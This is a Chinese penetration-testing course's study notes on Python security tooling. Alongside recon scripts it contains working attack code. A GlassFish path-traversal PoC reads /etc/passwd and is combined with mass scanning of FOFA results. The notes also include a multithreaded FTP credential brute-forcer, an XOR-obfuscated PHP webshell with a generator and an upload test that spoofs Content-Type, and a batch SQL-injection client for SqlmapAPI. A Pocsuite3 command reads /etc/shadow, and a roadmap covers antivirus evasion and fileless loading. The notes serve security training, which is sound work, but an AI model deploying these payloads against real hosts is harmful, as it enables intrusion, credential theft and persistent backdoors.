

# XD安全渗透测试课程 Day76-79 Python安全开发学习笔记

> 来源：XD安全渗透测试课程微信归档文章，作者：团队成员-dragonk【无名安全团队】

本页面系统沉淀 XD安全渗透测试课程第 76-79 天（Python安全开发模块）的学习笔记，涵盖**前期信息收集自动化**、**漏洞批量验证与爬虫技术**、**FTP 爆破实战**、**PHP 异或免杀 Webshell 生成**、**SqlmapAPI 自动化 SQL 注入检测**、**Pocsuite3 框架二次开发**六大核心实战方向，形成可落地的安全工具开发知识体系。

---

## 课程定位与技术栈

### 学习目标
- 掌握 Python 在渗透测试各阶段的工程化应用：从信息收集、漏洞验证到免杀绕过、框架二开
- 理解**自动化、批量化、可编程化**的安全工具开发思维
- 熟练使用 `socket`、`requests`、`lxml`、`ftplib`、`threading`、`sqlmapapi`、`pocsuite3` 等核心库/框架

### 核心技术栈
| 类别 | 技术/库 | 典型应用场景 |
|------|---------|--------------|
| 网络编程 | `socket` | DNS 解析、端口扫描、Banner 抓取 |
| HTTP/爬虫 | `requests`、`lxml` | FOFA 结果爬取、漏洞 PoC 发包、页面数据提取 |
| 协议交互 | `ftplib` | FTP 爆破、匿名登录检测 |
| 并发编程 | `threading` / `multiprocessing` | 多线程爆破、批量扫描提速 |
| 漏洞扫描框架 | `sqlmapapi`、 `pocsuite3` | SQL注入自动化检测、POC/EXP 标准化管理 |
| 免杀对抗 | PHP 异或运算、字符拆分、动态混淆 | 一句话 Webshell 静态特征绕过 |

---

## 一、 前期信息收集自动化脚本

### 环境搭建基线
- **IDE**：PyCharm（专业版/社区版均可），推荐安装插件：`CodeGlance`、`Grep Console`、`Rainbow Brackets`、`Material Theme UI`
- **依赖管理**：`pip install <package>` 或 PyCharm 内置包管理器（Settings → Project → Python Interpreter → +）
- **常用第三方库**：`requests`、`lxml`、`python-whois`、`pocsuite3`、`sqlmapapi` 客户端库

### 核心功能模块实现

#### (1) 域名解析 IP 查询
```python
import socket

def resolve_domain(domain):
    try:
        ip = socket.gethostbyname(domain)
        return ip
    except socket.gaierror:
        return None

# 示例：resolve_domain("www.baidu.com") → "110.242.68.66"
```
- **原理**：`socket.gethostbyname()` 触发系统 DNS 解析流程
- **扩展**：可结合 `dnspython` 实现指定记录类型（A/AAAA/MX/NS/TXT）查询

#### (2) Whois 信息获取
```python
import whois  # pip install python-whois

def get_whois(target):
    w = whois.whois(target)
    return w.text  # 或 w.domain_name, w.creation_date 等结构化字段
```
- **输出字段**：注册商、创建/过期时间、DNS 服务器、联系人邮箱/电话等
- **注意**：部分后缀需额外安装 `whois` 系统命令或使用 `whoisds` 库

#### (3) CDN 判断
```python
import os

def is_cdn(domain):
    # 通过 nslookup 解析返回 IP 数量判断
    result = os.popen(f"nslookup {domain}").read()
    ip_count = len([line for line in result.splitlines() if "Address:" in line and "#" not in line])
    return ip_count > 2  # 经验阈值，可结合 CNAME 记录特征综合判断
```
- **判断逻辑**：单域名解析到多个地理位置分散的 IP、存在 CNAME 指向已知 CDN 厂商（`cdn.dnsv1.com`、`*.cdn.cloudflare.net` 等）

#### (4) 子域名枚举（字典爆破模式）
```python
import socket
import re

def subdomain_brute(domain, dict_file):
    # 去除 www 前缀
    root = re.sub(r'^www\.', '', domain)
    with open(dict_file) as f:
        for sub in f:
            sub = sub.strip()
            target = f"{sub}.{root}"
            try:
                ip = socket.gethostbyname(target)
                print(f"[+] {target} → {ip}")
            except socket.gaierror:
                pass
```
- **优化方向**：
  - 引入 `asyncio` + `aiodns` 实现异步并发解析
  - 集成 `subfinder`、`amass` 等被动枚举结果去重
  - 支持泛解析检测与过滤

#### (5) 端口扫描（TCP Connect 扫描）
```python
import socket

def port_scan(host, ports, timeout=2):
    open_ports = []
    for port in ports:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(timeout)
        result = sock.connect_ex((host, port))
        if result == 0:
            open_ports.append(port)
        sock.close()
    return open_ports
```
- **Socket 参数说明**：
  - `AF_INET`：IPv4 地址族
  - `SOCK_STREAM`：TCP 流式套接字
  - `connect_ex()`：非阻塞连接，返回 0 表示成功
- **生产级增强**：SYN 半连接扫描（需 root/raw socket）、服务版本识别（Banner Grabbing）、Nmap XML 结果解析复用

#### (6) 目标操作系统指纹识别
- **思路**：调用第三方指纹库（如 `python-nmap` 解析 Nmap `-O` 输出、`httprint`、自定义 HTTP Header/TCP/IP 栈特征库）
- **落地**：结合 `p0f` 被动指纹识别、TTL 值启发式判断（Linux 64/128、Windows 128/64）、HTTP `Server` 头、`X-Powered-By` 等应用层特征

> **关联页面**：[[network-fundamentals-penetration-testing]]（网络基础与 ARP/ICMP/TCP 协议原理）、[[ctfshow-web-info-gathering-brute-force]]（CTFshow 信息收集与爆破实战）、[[xd-security-pentest-basic-stage-notes]]（XD安全基础阶段资产发现与端口扫描体系）

---

## 二、 漏洞批量验证与爬虫技术实战

### 实战案例：GlassFish 任意文件读取（CVE-2017-1000028 等）

#### 漏洞 PoC 分析
| 目标系统 | 读取文件路径 | PoC 路径示例 |
|----------|--------------|--------------|
| Linux | `/etc/passwd` | `/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd` |
| Windows | `C:/windows/win.ini` | 类似路径遍历编码绕过 |

#### 批量验证工程化流程
```mermaid
graph LR
    A[FOFA 搜索语法: "glassfish" && port="4848"] --> B[Requests 爬取 FOFA 结果页]
    B --> C[LXML XPath 提取 IP:Port 列表]
    C --> D[多线程发送 PoC GET 请求]
    D --> E[判断状态码 200 & 响应体含 root: / \[extensions\] 等特征]
    E --> F[结果入库/导出 CSV]
```

#### 关键代码片段
```python
import requests
from lxml import etree

# 1. FOFA 爬取（需登录 Cookie）
headers = {"Cookie": "fofa_token=xxx; ..."}
resp = requests.get("https://fofa.info/result?qbase64=Z2xhc3NmaXNoICYmIHBvcnQ9IjQ4NDgi", headers=headers)
html = etree.HTML(resp.text)
targets = html.xpath('//a[@class="hsxa-host"]/@href')  # 根据实际页面结构调整 XPath

# 2. 批量验证
poc_linux = "/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd"
poc_win = "/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/windows/win.ini"

def verify(target):
    for poc in [poc_linux, poc_win]:
        url = f"http://{target}{poc}"
        r = requests.get(url, timeout=5)
        if r.status_code == 200 and ("root:" in r.text or "[extensions]" in r.text):
            return True, url
    return False, None
```

#### 爬虫工程化注意事项
| 问题 | 解决方案 |
|------|----------|
| 编码乱码 | `resp.encoding = 'utf-8'` 或 `resp.apparent_encoding` |
| 反爬/登录态 | 浏览器复制完整 Cookie 头，设置 `Referer`、`User-Agent` 模拟真实会话 |
| 翻页处理 | 分析 `page=` 参数或 `next` 按钮链接，循环抓取直到无数据 |
| 速率控制 | `time.sleep(random.uniform(1,3))` + 代理池轮换 |

### 案例二：教育平台 SRC 漏洞信息提取
- **目标**：某教育行业 SRC 平台漏洞公开列表（分页）
- **技术栈**：`requests` + `lxml` + `pandas` 导出 Excel
- **字段**：漏洞标题、厂商、危害等级、提交时间、奖励金额、状态
- **实现**：循环 `page=1..10`，XPath 定位 `//table/tbody/tr`，逐行提取 `td[n]/text()`，写入 `DataFrame.to_excel()`

### 文件读写最佳实践
```python
# 写入模式对比
# 'w'：覆盖写入；'x'：独占创建（存在则报错）；'a'：追加写入
with open("result.txt", "a", encoding="utf-8") as f:
    f.write(f"{target}\n")  # 自动换行，无需手动 strip()

# 读取大文件逐行处理
with open("targets.txt", "r", encoding="utf-8") as f:
    for line in f:
        target = line.strip()
        if target:
            process(target)
```

> **关联页面**：[[sqlmap-api-automation]]（SQLMap API 自动化批量扫描架构对比）、[[edu-src-penetration-test-case-study]]（Edu SRC 实战渗透流程）、[[xd-security-waf-bypass-techniques-day46-49]]（WAF 绕过语境下的批量验证策略）

---

## 三、 FTP 爆破实战（ftplib + 多线程）

### ftplib 核心接口
```python
from ftplib import FTP

ftp = FTP()
ftp.connect(host, port, timeout=5)
ftp.login(user, passwd)  # 成功返回 230，失败抛出 error_perm
ftp.quit()
```
| 方法 | 说明 |
|------|------|
| `connect(host, port, timeout)` | 建立 TCP 连接 |
| `login(user, passwd)` | 用户认证，匿名登录 `anonymous` / `guest` |
| `dir()` / `nlst()` | 列目录（需登录后） |
| `retrbinary()` / `storbinary()` | 下载/上传文件 |

### 多线程爆破模型
```python
import threading
from queue import Queue
from ftplib import FTP, error_perm

task_queue = Queue()
results = []
lock = threading.Lock()

def worker():
    while not task_queue.empty():
        ip, port, user, pwd = task_queue.get()
        try:
            ftp = FTP()
            ftp.connect(ip, port, timeout=3)
            ftp.login(user, pwd)
            with lock:
                results.append((ip, port, user, pwd))
                print(f"[+] Success: {ip}:{port} {user}:{pwd}")
            ftp.quit()
        except error_perm:
            pass
        except Exception:
            pass
        finally:
            task_queue.task_done()

# 生产者：读取 IP 列表、用户名字典、密码字典，组合入队
# 启动 N 个线程：for _ in range(20): threading.Thread(target=worker).start()
# task_queue.join() 等待完成
```

### 工程化增强点
- **连接复用**：同一 IP 多密码尝试复用 TCP 连接（`ftp.voidcmd("NOOP")` 保活）
- **速率限制**：令牌桶算法控制全局 QPS，避免触发账户锁定策略
- **结果去重**：`set()` 存储成功凭证，防止重复输出
- **协议扩展**：支持 FTPS（`ftplib.FTP_TLS`）、SFTP（`paramiko`）

> **关联页面**：[[internal-network-pivoting-techniques]]（内网渗透中 FTP 横向移动）、[[frp内网渗透应用]]（隧道代理下的服务爆破）、[[vulnhub-platform-resource-index]]（VulnHub 靶机 FTP 服务实战）

---

## 四、 PHP 异或免杀 Webshell 生成技术

### 核心原理：异或运算构造字符
```php
<?php
// 原始一句话：<?php assert($_POST[x]);?>
// 目标：将 assert 拆解为两个可见字符异或得出
$a = ("!" ^ "@") . 'ssert';  // ! (0x21) ^ @ (0x40) = a (0x61)
$a($_POST['x']);
?>
```
| 字符 | ASCII | 二进制 | 异或结果 |
|------|-------|--------|----------|
| `!`  | 33    | 0010 0001 |          |
| `@`  | 64    | 0100 0000 |          |
| `a`  | 97    | 0110 0001 | `!` ^ `@` = `a` |

**规律**：仅当两字符第 7 位（0x40）不同时，异或结果落在小写字母范围（0x61-0x7A）。常用配对：`!^@`、`%^`、`*^` 等。

### 自动化 Fuzz 生成器（Python 实现）
```python
import itertools
import requests

# 1. 生成所有可打印字符异或组合（32-126）
chars = [chr(i) for i in range(32, 127)]
valid_pairs = {}
for c1, c2 in itertools.product(chars, repeat=2):
    xor = chr(ord(c1) ^ ord(c2))
    if 'a' <= xor <= 'z' or 'A' <= xor <= 'Z' or '0' <= xor <= '9':
        valid_pairs.setdefault(xor, []).append((c1, c2))

# 2. 模板化 Payload 生成
template = '<?php ${"{xor_a}"}("{xor_b}")($_POST[x]);?>'  # 伪代码示意

# 3. 自动化验证（需目标环境可写目录）
def test_payload(payload, upload_url, check_url):
    files = {'file': ('test.php', payload, 'image/png')}  # Content-Type 绕过
    requests.post(upload_url, files=files)
    resp = requests.get(check_url + '?x=phpinfo();')
    return 'phpinfo' in resp.text
```

### 进阶变形思路
| 技术 | 说明 |
|------|------|
| **多层异或** | `chr(ord(a)^ord(b)^ord(c))` 三字符异或，增加静态分析难度 |
| **字符串拼接** | `'a'.'s'.'s'.'e'.'r'.'t'` 或 `implode('', ['a','s','s','e','r','t'])` |
| **变量函数调用** | `$f='assert'; $f($_POST[x]);` |
| **Base64/ROT13 编码** | `eval(base64_decode('...'))` 组合异或 |
| **动态密钥** | 结合 `$_SERVER['HTTP_USER_AGENT']` 或时间戳生成每次唯一 Payload |

### 检测对抗与防御视角
- **静态特征**：异或表达式 `(...^...)`、高频字符 `^`、`chr`、`ord`、`assert`、`eval`、`$_POST`/`$_GET`/`$_REQUEST`
- **动态行为**：文件写入后立即请求、执行高危函数、出站连接
- **防御建议**：
  - WAF 规则匹配异或模式 `\(.?.?.?\^.?.?.?\)`
  - 禁用 `assert`、`eval`、`create_function`（`disable_functions`）
  - 文件上传目录禁止脚本执行（Nginx/Apache 配置 `php_flag engine off`）
  - 部署 RASP/IAST 监控 `zend_execute_ex` 钩子

> **关联页面**：[[php-webshell-obfuscation-av-evasion]]（C++ 两阶段混淆器：算术表达式拆分 + 关键函数异或拆分）、[[php-webshell-fundamentals-chopper-analysis]]（一句话木马原理与蚁剑/菜刀流量分析）、[[php伪协议与反序列化利用]]（PHP 伪协议绕过 `disable_functions` 结合 Webshell 利用）、[[attack-defense-world-beginner-web-writeup]]（攻防世界 Webshell 实战连接）

---

## 五、 SqlmapAPI 自动化 SQL 注入检测

### Sqlmap REST-JSON API 架构


### 核心 API 端点与调用流程
| 步骤 | HTTP 方法 | 端点 | 关键参数 | 说明 |
|------|-----------|------|----------|------|
| 1. 创建任务 | GET | `/task/new` | 无 | 返回 `taskid` (UUID) |
| 2. 设置扫描选项 | POST | `/option/<taskid>/set` | `url`、`data`、`method`、`headers`、`cookie`、`level`、`risk`、`dbms`、`technique` 等 | 对应 sqlmap 命令行参数 |
| 3. 启动扫描 | POST | `/scan/<taskid>/start` | 同设置选项 | 异步启动，立即返回 |
| 4. 轮询状态 | GET | `/scan/<taskid>/status` | 无 | 返回 `running` / `terminated` |
| 5. 获取结果 | GET | `/scan/<taskid>/data` | 无 | 返回漏洞详情、注入点、数据库信息 |
| 6. 删除任务 | GET | `/task/<taskid>/delete` | 无 | 释放资源 |

### Python 客户端封装示例
```python
import requests
import time
import json

class SqlmapAPI:
    def __init__(self, server="http://127.0.0.1:8775"):
        self.server = server.rstrip('/')
    
    def new_task(self):
        r = requests.get(f"{self.server}/task/new")
        return r.json()['taskid']
    
    def set_option(self, taskid, options):
        headers = {'Content-Type': 'application/json'}
        r = requests.post(f"{self.server}/option/{taskid}/set", 
                          headers=headers, data=json.dumps(options))
        return r.json()['success']
    
    def start_scan(self, taskid, options):
        headers = {'Content-Type': 'application/json'}
        r = requests.post(f"{self.server}/scan/{taskid}/start",
                          headers=headers, data=json.dumps(options))
        return r.json()['success']
    
    def get_status(self, taskid):
        r = requests.get(f"{self.server}/scan/{taskid}/status")
        return r.json()['status']
    
    def get_data(self, taskid):
        r = requests.get(f"{self.server}/scan/{taskid}/data")
        return r.json()['data']
    
    def delete_task(self, taskid):
        requests.get(f"{self.server}/task/{taskid}/delete")

# 批量扫描编排
def batch_scan(urls):
    api = SqlmapAPI()
    tasks = {}
    for url in urls:
        tid = api.new_task()
        api.set_option(tid, {"url": url, "batch": True, "level": 2, "risk": 2})
        api.start_scan(tid, {"url": url})
        tasks[tid] = url
    
    # 轮询
    while tasks:
        for tid, url in list(tasks.items()):
            status = api.get_status(tid)
            if status == 'terminated':
                data = api.get_data(tid)
                if data:
                    print(f"[VULN] {url} → {data}")
                api.delete_task(tid)
                del tasks[tid]
        time.sleep(5)
```

### 生产级优化策略
- **任务队列**：Celery + Redis 管理任务分发、重试、优先级
- **结果持久化**：PostgreSQL/Elasticsearch 存储结构化漏洞数据，支持检索与报表
- **去重与指纹**：对 URL 规范化（排序参数、去除动态 token），结合 WAF 指纹自动调整 `tamper` 脚本
- **分布式扫描**：多节点部署 sqlmapapi，通过 Nginx 负载均衡，共享结果存储
- **对接流程**：FOFA/ZoomEye/Quake 资产发现 → 存活探测 → SqlmapAPI 批量注入检测 → 漏洞推送钉钉/企业微信/飞书

> **关联页面**：[[sqlmap-api-automation]]（专题页：SQLMap API 服务端/客户端模式、核心接口、Python 自动化脚本完整实现）、[[xd-security-pentest-basic-stage-notes]]（基础阶段 SQL注入手工/半自动技术体系）、[[mysql-dnslog-injection-loadfile-unc]]（DNSLog 盲注数据外带技术可配合 API 自动化判断）

---

## 六、 Pocsuite3 二次开发：POC/EXP 标准化引入

### Pocsuite3 架构概览
```
pocsuite3/
├── cli.py                 # 入口：参数解析、调度引擎
├── pocsuite3/
│   ├── api.py             # 编程式接口（PocBase 类）
│   ├── lib/core/          # 核心引擎：poc、target、result、logger
│   ├── modules/           # 内置模块：listener、reverseshell 等
│   └── pocs/              # 内置 POC 目录（按 CVE/厂商/类型分类）
```

### POC 标准模板（继承 `POCBase`）
```python
from pocsuite3.api import (
    Output, POCBase, register_poc, requests, logger, VUL_TYPE, POC_CATEGORY
)

class GlassfishFileRead(POCBase):
    vulID = "CVE-2017-1000028"
    version = "1.0"
    author = ["dragonk"]
    vulDate = "2017-08-01"
    createDate = "2024-01-10"
    updateDate = "2024-01-10"
    references = ["https://nvd.nist.gov/vuln/detail/CVE-2017-1000028"]
    name = "GlassFish Server 任意文件读取"
    appPowerLink = "https://javaee.github.io/glassfish/"
    appName = "Oracle GlassFish Server"
    appVersion = "4.1, 4.1.1, 4.1.2, 5.0, 5.0.1"
    vulType = VUL_TYPE.PATH_TRAVERSAL
    category = POC_CATEGORY.EXPLOITS.WEBAPP
    desc = """GlassFish 管理控制台 /theme/META-INF/ 路径遍历可读取任意文件"""
    pocDesc = "GET /theme/META-INF/%c0%ae%c0%ae/.../etc/passwd"

    def _check(self):
        """验证模式：仅判断漏洞存在，不造成破坏"""
        payloads = [
            "/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd",
            "/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/windows/win.ini"
        ]
        for payload in payloads:
            url = self.url.rstrip('/') + payload
            try:
                resp = requests.get(url, timeout=10, verify=False)
                if resp.status_code == 200 and ("root:" in resp.text or "[extensions]" in resp.text):
                    return True, url, resp.text[:200]
            except Exception:
                continue
        return False, None, None

    def _verify(self):
        result = {}
        ok, url, snippet = self._check()
        if ok:
            result['VerifyInfo'] = {'URL': url, 'Snippet': snippet}
        return self.parse_output(result)

    def _attack(self):
        """攻击模式：可读取指定文件（需扩展参数）"""
        return self._verify()  # 简化示例

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Target is not vulnerable')
        return output

register_poc(GlassfishFileRead)
```

### 常用 CLI 调用模式
```bash
# 单目标验证
python cli.py -u http://target:4848 -r pocs/glassfish_fileread.py --verify

# 批量验证（从文件读取目标）
python cli.py -f targets.txt -r pocs/glassfish_fileread.py --verify --threads 20

# 攻击模式（读取指定文件）
python cli.py -u http://target:4848 -r pocs/glassfish_fileread.py --attack --file /etc/shadow

# 结果导出
python cli.py -f targets.txt -r pocs/ --verify --output result.json --format json
```

### 二次开发扩展点
| 扩展方向 | 实现方式 |
|----------|----------|
| **自定义 POC 目录** | `--poc-dir ./my_pocs` 或修改 `config.py` 中 `POC_DIRS` |
| **编程式调用** | `from pocsuite3.api import run_poc; run_poc(poc_file, target)` 集成到自有平台 |
| **插件化 Payload** | 实现 `PayloadBase` 子类，注册到 `payloads/` 目录，支持动态加载 |
| **结果回调** | 重写 `Output` 类或使用 `--hook` 参数指定 Python 钩子脚本（如推送到 Kafka/HTTP） |
| **协议扩展** | 继承 `POCBase` 实现非 HTTP 协议检测（Redis 未授权、MySQL 弱口令、SSH 爆破等） |

### 资源链接
- 官方仓库：<https://github.com/knownsec/pocsuite3>
- FreeBuf 实战文章：<https://www.freebuf.com/articles/web/204875.html>
- POC 编写规范：<https://docs.pocsuite.org/>

> **关联页面**：[[xd-security-pentest-course-curriculum]]（课程大纲中代码审计与漏洞利用模块定位）、[[cybersecurity-interview-guide-2022]]（面试中漏洞扫描器原理与二次开发考点）、[[vulnhub-platform-resource-index]]（VulnHub 靶机验证 POC 落地演练）

---

## 七、 知识体系交叉引用导航

| 学习模块 | 关联知识库页面 | 核心价值 |
|----------|----------------|----------|
| **信息收集自动化** | [[network-fundamentals-penetration-testing]]、[[ctfshow-web-info-gathering-brute-force]]、[[xd-security-pentest-basic-stage-notes]] | 协议层原理 + CTF 实战技巧 + 课程体系化资产发现 |
| **漏洞批量验证/爬虫** | [[sqlmap-api-automation]]、[[edu-src-penetration-test-case-study]]、[[xd-security-waf-bypass-techniques-day46-49]] | SQLMap API 架构对比 + SRC 实战流程 + WAF 绕过语境下的批量策略 |
| **FTP/服务爆破** | [[internal-network-pivoting-techniques]]、[[frp内网渗透应用]]、[[vulnhub-platform-resource-index]] | 横向移动凭证获取 + 隧道代理下爆破 + 靶机实战验证 |
| **PHP 免杀 Webshell** | [[php-webshell-obfuscation-av-evasion]]、[[php-webshell-fundamentals-chopper-analysis]]、[[php伪协议与反序列化利用]]、[[attack-defense-world-beginner-web-writeup]] | C++ 混淆器深度解析 + 客户端流量分析 + 伪协议组合利用 + 实战连接演示 |
| **SqlmapAPI 自动化** | [[sqlmap-api-automation]]、[[mysql-dnslog-injection-loadfile-unc]] | 专题页完整实现 + 盲注数据外带技术集成 |
| **Pocsuite3 二开** | [[xd-security-pentest-course-curriculum]]、[[cybersecurity-interview-guide-2022]]、[[vulnhub-platform-resource-index]] | 课程模块定位 + 面试考点 + 靶机验证闭环 |

---

## 八、 学习路径与进阶建议

### 阶段一：基础夯实（1-2 周）
1. 熟练掌握 Python 标准库：`socket`、`threading`/`asyncio`、`subprocess`、`os`/`sys`、`re`、`json`/`csv`、`argparse`
2. 精通 `requests` 进阶用法：`Session` 连接池、流式响应、认证插件、适配器重试策略、Hook 机制
3. 掌握 `lxml`/`BeautifulSoup`/`re` 三种提取方式的选型与性能对比
4. 完成**端口扫描器 v1.0**（支持 TCP Connect、Banner 抓取、结果 CSV 导出）

### 阶段二：工程化提升（2-3 周）
1. 学习 **Celery + Redis** 分布式任务队列，将单机脚本改造为分布式扫描节点
2. 引入 **Pydantic** 做配置校验、**Loguru** 结构化日志、**Rich** 终端美化输出
3. 编写 **SqlmapAPI 客户端库** 封装：重试、熔断、限流、结果标准化模型
4. 实战开发 **POC 框架插件**（Pocsuite3/Nuclei/Afrog 任选一），完成 5 个实战 CVE POC 编写

### 阶段三：对抗与免杀（持续）
1. 深入研究 **PHP 扩展开发**（用 C 实现混淆器、编码器，性能提升 10-100 倍）
2. 学习 **AST 静态分析**（`php-ast`、`nikic/PHP-Parser`）实现代码级混淆：控制流平坦化、死代码插入、变量重命名
3. 对接 **EDR/AV 规则逆向**：收集主流杀软静态特征库，针对性绕过（字符串加密、API 动态解析、内存马注入）
4. 研究 **无文件落地技术**：PHP `eval`/`assert` 回调链、Java `ClassLoader` 定制、.NET `Assembly.Load` 反射加载

### 阶段四：平台化建设（长期）
- 资产测绘引擎（FOFA/ZoomEye/Quake/Shodan API 聚合、去重、变更监控）
- 漏洞管理平台（录入、分级、分派、复测、SLA、知识库沉淀）
- 红队协作框架（C2 对接、凭证管理、横向移动编排、作战日志审计）

---

## 九、 附录：课程大纲原文结构映射

| 课程天数 | 主题 | 对应本页面章节 |
|----------|------|----------------|
| Day 76 | Python 安全开发导论、环境搭建、信息收集自动化（DNS/Whois/CDN/子域名/端口/系统识别） | **一、前期信息收集自动化脚本** |
| Day 77 | Requests 爬虫、LXML 提取、FOFA API 批量验证 GlassFish 任意文件读取、FTP 爆破多线程 | **二、漏洞批量验证与爬虫技术实战** 、 **三、FTP 爆破实战** |
| Day 78 | PHP 异或免杀 Webshell 生成原理、Fuzz 自动化、变形技巧 | **四、PHP 异或免杀 Webshell 生成技术** |
| Day 79 | SqlmapAPI REST 接口调用、批量 SQL 注入检测编排、Pocsuite3 二次开发 POC 编写与 CLI 实战 | **五、SqlmapAPI 自动化 SQL 注入检测** 、 **六、Pocsuite3 二次开发** |

---

> **维护说明**：本页面将随课程进度与实战积累持续更新。欢迎通过 Issue/PR 补充新的 POC 代码、免杀变形思路、自动化编排最佳实践。

## 来源

- [0x00实验室-202108-202304_087](../sources/0x00实验室-202108-202304_087.md)
